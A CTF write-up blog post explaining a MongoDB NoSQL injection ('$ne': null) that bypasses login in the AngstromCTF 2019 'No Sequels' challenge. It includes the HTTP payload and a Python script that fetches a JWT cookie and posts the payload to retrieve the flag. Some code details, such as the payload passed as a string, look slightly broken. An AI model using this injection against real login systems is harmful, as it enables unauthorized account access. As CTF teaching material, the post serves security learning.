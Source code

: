 ```yaml
---
title: "Angstromctf 2019 | No Sequels and No Sequels2 Web Writeup"
author: "CHERIEF Yassine (omega_coder)"
type: ""
date: 2019-04-26T01:49:01+02:00
subtitle: "Mongodb Authentification bypass and Blind Injection"
image: ""
tags: ["ctf", "nosql", "mongodb", "nosql-injection", "web", "writeup"]
categories: ["writeups", "security"]
---
```



This blog post contains the writeup for two challenges (No SEQUELS & No SEQUELS 2), because they are related.

So let's start with No SEQUELS first.

**Category:** Web  
*Points:* 50  

-----------------------------

## Challenge Description 
> The prequels sucked, and the sequels aren't much better, but at least we always have the [original trilogy](https://nosequels.2019.chall.actf.co).

> Hint said : *MongoDB is a safer alternative to SQL, right?*

#### What we can get from the informations stated above ?

- They are using MongoDB as a NoSQL engine.
- we can guess from hint that its a simple Auth bypass with MongoDB NoSQL injection.

We are presented a part of the source code of how the authentication happens.

![no_sequels_source_code](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1556371044/1_xKB1P9_JsMbdjYLkCsnHvw.png)

### Exaplanation

This simple authentication uses `JWT` (JSON Web Tokens), trying to hack the token won't help because the JWT token is being signed with a `secret key` and we don't know the key actually.

After reading the code, this is clearly a NoSQL Injection because of unsanitized user input.

The following two lines show that the variables username and password are not sanitized by anyway.

```
var user = req.body.username;
var pass = req.body.password;
```

One more thing to notice, the line below show that the body can be parser using json regarded that we supply some json input with `Content-Type: application/json`.

```
app.use(bodyParser.json());
```

NoSQL databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional `SQL` syntax.

The unsanitisation of username and password will lead to NoSQL code injection.

What would happen if we post the following JSON data:

```http
POST https://nosequels.2019.chall.actf.co HTTP/1.1
Content-Type: application/json
{
    "username": {"$ne": null},
    "password": {"$ne": null}
}
```

By Sending this payload the username & password will be parsed as so, thus the query being

```
var query = {
    username: {"$ne": null};
    password: {"$ne": null};
}
    
```

Now, executing the line below from the app source code will return the first row, and we will be authenticated.

```
db.collection('users').findOne(query, function(err, user) {
    if (!user) {
        res.send("Wrong username or password");
        return 
    }
    res.cookie('token', jwt.sign({name: user.username, authnticated: true}, secret));
    res.redirect("/site");
});

```

Let's write a script to do the work for us, and get that first `FLAG`.

We will be using python requests module.

```python
import requests
import re
URL = "https://nosequels.2019.chall.actf.co/login"
payload = '{"username": {"$ne": null}, "password": {"$ne": null}}'
cookies = {"token": "still_dont_know"} 
# we could have done it manually, and replaced the token with
# the token that your browser got for you

# init session
session = requests.Session()
# set re expression for token in headers
jwt_token_re = re.compile(r"token=(.*);")
# Getting the token for the first time

token_req = session.get(URL)
if token_req.status_code == 200:
    m = re.search(jwt_token_re, token_req.headers["Set-Cookie"])
    if m:
        # update token in cookies dict
        cookies["token"] = str(m.group(1))

# Now let's send the json payload with the alongside the cookie we got above.
# we will leave requests default behaviour to follow redirects which will redirect us to /site

flag_re =  re.compile(r"actf{.*}")

# make request with mallicious payload

req = session.post(URL, json=payload, cookies=cookies, verify=False)
# verify is just for HTTPS connection

if req.status_code == 200:
    # FLAG match
    m = re.search(flag_re, req.text)
    if m:
        print("1st FLAG: ", m.group(0)) 
```

**`FLAG is: actf{no_sql_doesn’t_mean_no_vuln}`**



















